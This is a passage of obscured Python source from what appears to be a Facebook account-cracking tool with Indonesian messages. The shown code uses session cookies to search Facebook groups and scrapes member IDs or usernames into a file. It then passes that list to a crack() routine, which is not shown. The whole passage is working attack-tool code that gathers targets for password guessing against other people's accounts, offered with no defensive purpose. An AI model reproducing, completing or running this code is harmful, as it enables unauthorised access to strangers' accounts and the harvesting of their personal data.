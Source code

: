                    except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                    except Exception as _error_:print('\n%s [%s!%s] %sError Di Bagian : %s'%(M,P,M,P,_error_));_cici_cici_()
                elif xd in ['u','U','2']:
                    try:self.dump_username("https://m.facebook.com/groups/"+id);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                    except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                    except Exception as _error_:print('\n%s [%s!%s] %sERROR IN SECTION : %s'%(M,P,M,M,_error_));_cici_cici_()
                else:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,M));menu()    
    def search(self):
        whitelist=[];q=_cici_azimvau_('%s [%s•%s] %sNAME : '%(H,P,H,K)).lower()
        if q=='':self.search()
        else:
            for e,i in enumerate(self.glist):
                if q in i.get("name").lower():whitelist.append(i);print('%s [%s%s%s] %s%s'%(O,P,len(whitelist),O,P,i.get("name").replace(q,"%s"%(q))))
            if len(whitelist)==0:jalan('%s [%s!%s] %sPRIVATE GROUP OR WRONG ID'%(M,P,M,P));menu()
            else:self.choice(whitelist,q)
    def choice(self, whitelist,q):
        try:
            self.listed=whitelist[int(_cici_azimvau_('%s [%s•%s] %sCHOOSE : '%(H,P,H,K)))-int(1)];self.f(q);print('%s '%(O));print("%s [%s•%s] %sNAME : %s"%(H,P,H,K,self.listed.get("name")));xd = _cici_azimvau_('%s [%s•%s] %sDUMP/USERNAME? %s[%si%s/%su%s] : '%(H,P,H,K,Z,M,Z,H,Z));print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K))
            if xd in ['']:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
            elif xd in ['i','I','1']:
                try:self.dump_id("https://m.facebook.com/groups/"+self.listed.get("id"));print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                except Exception as _error_:print('\n%s [%s!%s] %sERROR IN SECTION : %s'%(M,P,M,P,_error_));_cici_cici_()
            elif xd in ['u','U','2']:
                try:self.dump_username("https://m.facebook.com/groups/"+self.listed.get("id"));print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID Dari %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
                except Exception as _error_:print('\n%s [%s!%s] %sERROR IN SECTION : %s'%(M,P,M,P,_error_));_cici_cici_()
            else:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
        except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID FROM %s"%(H,P,H,K,len(_azimvau_dapunta_(self.fl).read().splitlines()),self.listed.get("name")));return crack(self.fl)
        except Exception as _error_:print('\n%s [%s!%s] %sERROR IN SECTION : %s'%(M,P,M,P,_error_));_cici_cici_()
    def f(self,id):
        self.fl=(id.replace(' ','_')+'.json')
        if self.fl=='':self.f()
        try:os.remove(self.fl)
        except:pass
        _azimvau_dapunta_(self.fl,"w").close()
    def dump_username(self, url):
        r=bs4.BeautifulSoup(_req_get_(url,cookies=self.cookies,headers=header_grup).text,"html.parser");print("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(self.fl).read().splitlines())), end=' ');sys.stdout.flush()
        for i in r.find_all("h3"):
            try:
                if len(bs4.re.findall("\/",i.find("a",href=True).get("href")))==1:
                    ogeh=i.find("a",href=True)